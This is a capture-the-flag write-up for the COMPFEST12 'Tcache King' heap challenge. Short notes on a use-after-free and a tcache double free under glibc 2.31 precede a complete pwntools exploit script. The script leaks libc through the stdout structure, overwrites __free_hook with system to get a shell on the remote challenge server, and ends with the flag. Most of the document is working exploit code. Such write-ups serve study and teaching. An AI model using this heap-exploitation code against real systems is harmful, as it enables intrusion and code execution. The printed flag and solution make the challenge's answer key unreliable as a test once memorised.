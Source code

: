 # Tcache-king

```python
			Challenge - 2 Solves
			 Tcache King - 1000
hahah Tcache go brrr

nc 128.199.157.172 20978

Alternate download link:
https://drive.google.com/file/d/1j7pscqy2wrIKFV0w5CXtn9BDIkjHJhQy/view?usp=sharing
```

- Nice and uniqe challenge :)
- There is obviuos UAF. We can do double free.
- But glibc 2.31 has check for tcache double free.
- There are some restrictions in the binary.
- In add-note function
- We can only use alphanumeric characters in our note.
- This makes the challenge tricky.
- There is one more function called changename. which allocates 0x40 sized chunk.
- It allows all characters to be used in the chunk.
- There is now view() function. So my script guess four bits.
- Leak using stdout structure trick.
- Other there is nothing new. Just requires Some heavy heap manipulation.
- I didn't knew that NULL bytes were allowed in add-note.
- I did this challenge without using null bytes in add-note :P
- free_hook is the best targate with tcache :)
```c
#### Addnote constraints
"""
|  0-9   |   A-Z   |   a-z   |
0x30-0x39|0x41-0x5A|0x61-0x7A|
"""
```
#### First-blood

#### Exploit
```python
#!/usr/bin/python3
from pwn import *

####Utils
def addnote(idx,size,contents):
	io.sendlineafter("Choice: ","1")
	io.sendlineafter("index: ",str(idx))
	io.sendlineafter("size: ",str(size))
	io.sendafter("contents: ",contents)

def deletenote(idx):
	io.sendlineafter("Choice: ","2")
	io.sendlineafter("index: ",str(idx))

def changename(username):
	io.sendlineafter("Choice: ","4")
	io.sendafter("username: ",username)

#### Addnote constraints
"""
|  0-9   |   A-Z   |   a-z   |
0x30-0x39|0x41-0x5A|0x61-0x7A|
"""
####Addr
_IO_2_1_stdin = 0x1eb980
_IO_2_1_stdout = 0x1ec6a0
system = 0x55410
__free_hook = 0x1eeb28

####Exploit
while True:
#	io = process(["./tcache_king_ld"],env={"LD_PRELOAD":"./libc6_2.31-0ubuntu9_amd64.so"})
	io = remote("128.199.157.172", 20978)
	io.sendafter("username: ","HKHK")
	changename("HK")
	for i in range(34,42):
		addnote(i,0xf8,"HK") #34~41
	for i in range(42,50):
		addnote(i,0x28,"HK") #42~49
	addnote(50,0x28,"HK") #50
	addnote(51,0x28,"HK") #51
	addnote(52,0x18,"HK") #52
	addnote(0,0x28,"HK") #0
	addnote(1,0x18,"HK") #1
	addnote(2,0x28,"HK") #2
	addnote(3,0x28,"HK") #3
	for i in range(42,49):
		deletenote(i)
	deletenote(2)
	deletenote(3)
	deletenote(2)
	for i in range(23,30):
		addnote(i,0x28,"HK") #23~29
	addnote(2,0x28,"\x30") #2
	for i in range(19,21):
		addnote(i,0x28,"HK") #19~20
	addnote(4,0x28,b"HK"*4+p8(0x51)) #4
	deletenote(0)
	changename(p64(0x0)*5+p64(0x101))
	for i in range(34,41):
		deletenote(i)
	for i in range(5,14):
		addnote(i,0x48,"HK"+str(i)) #5~13
	deletenote(6)
	changename(p64(0x0)*5+p64(0x21))
	deletenote(1)
	deletenote(0)
	changename(p64(0x0)*5+p64(0x101)+p16(0x3690))
	for i in range(13,6,-1):
		deletenote(i)
	deletenote(6)
	deletenote(5)
	deletenote(0)
	deletenote(6)
	for i in range(54,61):
		addnote(i,0x48,"HK") #54~60
	addnote(14,0x48,p8(0x70)) #14
	for i in range(30,33):
		addnote(i,0x48,"HK"+str(i)) #30~32
	print("Libc")
	try:
		changename(p64(0x0)*2+p64(0xfbad1800)+p64(0x0)*3+b"\x00")
		libc_leak = u64(io.recvn(0x10)[0x8:])
		libc_base = libc_leak-0x1eb980
		if libc_base&0xfff==0:
			print("Found")
			break
		else:
			io.close()
			continue
	except:
		io.close()
		continue
print(f"Libc base: {hex(libc_base)}")
deletenote(0)
changename(p64(0x0)*5+p64(0x101)+p64(libc_base+__free_hook))
for i in range(54,61):
	deletenote(i)
deletenote(6)
deletenote(5)
deletenote(0)
deletenote(6)
for i in range(54,61):
	addnote(i,0x48,"HK") #54~60
addnote(15,0x48,p8(0x70)) #15
for i in range(30,32):
	addnote(i,0x48,"HK") #30~31
addnote(32,0x48,"sh\x00") #32
changename(p64(libc_base+system))
deletenote(32)
#COMPFEST12{Tcache_King_here_is_your_crown_WwW_5ef79c}
io.interactive()
```
